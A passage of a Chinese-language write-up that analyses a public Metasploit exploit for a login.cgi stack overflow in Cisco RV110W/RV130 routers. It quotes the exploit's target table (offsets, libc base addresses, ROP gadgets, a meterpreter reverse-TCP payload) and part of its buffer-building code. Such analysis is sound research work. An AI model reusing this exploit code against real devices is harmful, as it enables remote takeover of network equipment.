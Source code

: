 在exploit-db上找到针对此CVE的exp：[https://www.exploit-db.com/exploits/47348](https://www.exploit-db.com/exploits/47348)，但其需要的版本是1.2.2.1之前。exp经过测试无效。不过通过这个exp还是能分析出不少东西：首先可以看到RV110是MIPS平台的，而RV130是ARM平台的。

```ruby
[ 'Cisco RV110W 1.2.1.7',
            {
              'offset'              => 69,
              'libc_base_addr'      => 0x2af98000,
              'libcrypto_base_addr' => 0x2ac4f000,
              'system_offset'       => 0x0004c7e0,
              'got_offset'          => 0x00098db0,
              # gadget 1 is in /usr/lib/libcrypto.so
              'gadget1'             => 0x0003e7dc, # addiu $s0, $sp, 0x20; move $t9, $s4; jalr $t9; move $a0, $s0;
              'Arch'                => ARCH_MIPSLE,
              'DefaultOptions'  => {
                'PAYLOAD'         => 'linux/mipsle/meterpreter_reverse_tcp',
              }
            }
          ],
          [ 'Cisco RV130/RV130W < 1.0.3.45',
            {
              'offset'          => 446,
              'libc_base_addr'  => 0x357fb000,
              'system_offset'   => 0x0004d144,
              'gadget1'         => 0x00020e79, # pop {r2, r6, pc};
              'gadget2'         => 0x00041308, # mov r0, sp; blx r2;
              'Arch'            => ARCH_ARMLE,
              'DefaultOptions'  => {
                'PAYLOAD'         => 'linux/armle/meterpreter_reverse_tcp',
              }
            },
          ],
```

然后还可以看出来是login.cgi的栈溢出：


```ruby
def prepare_shellcode(cmd)
    case target
    # RV110W 1.1.0.9, 1.2.0.9, 1.2.0.10, 1.2.1.4, 1.2.1.7
    # RV215W 1.1.0.5, 1.1.0.6, 1.2.0.14, 1.2.0.15, 1.3.0.7, 1.3.0.8
    when targets[0], targets[1], targets[2], targets[3], targets[4], targets[6], targets[7], targets[8], targets[9], targets[10], targets[11]
      shellcode = rand_text_alpha(target['offset']) +           # filler
        rand_text_alpha(4) +                                    # $s0
        rand_text_alpha(4) +                                    # $s1
        rand_text_alpha(4) +                                    # $s2
        rand_text_alpha(4) +                                    # $s3
        p(target['libc_base_addr'], target['system_offset']) +  # $s4
        rand_text_alpha(4) +                                    # $s5
        rand_text_alpha(4) +                                    # $s6
        rand_text_alpha(4) +                                    # $s7
        rand_text_alpha(4) +                                    # $s8
        p(target['libcrypto_base_addr'], target['gadget1']) +   # $ra
        p(target['libc_base_addr'], target['got_offset']) +
        rand_text_alpha(28) +
        cmd
      shellcode
    when targets[5] # RV130/RV130W
      shellcode = rand_text_alpha(target['offset']) +           # filler
        p(target['libc_base_addr'], target['gadget1']) +
        p(target['libc_base_addr'], target['system_offset']) +  # r2
        rand_text_alpha(4) +                                    # r6
        p(target['libc_base_addr'], target['gadget2']) +        # pc
```